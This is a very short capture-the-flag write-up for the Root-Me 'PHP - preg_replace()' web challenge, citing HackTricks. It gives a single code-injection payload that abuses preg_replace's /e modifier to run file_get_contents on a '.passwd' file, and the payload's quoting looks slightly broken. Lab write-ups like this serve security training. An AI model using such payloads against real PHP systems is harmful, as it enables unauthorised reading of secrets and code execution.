 # PHP preg_replace

[root-me challenge PHP - preg_replace()](https://www.root-me.org/en/Challenges/Web-Server/PHP-preg_replace): Read `flag.php`.

----

Using [HackTricks Code execution using preg_replace()](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/php-tricks-esp#code-execution-using-preg_replace):

```text
preg_replace("/a/e","file_get_contents(".passwd")","whatever")
```

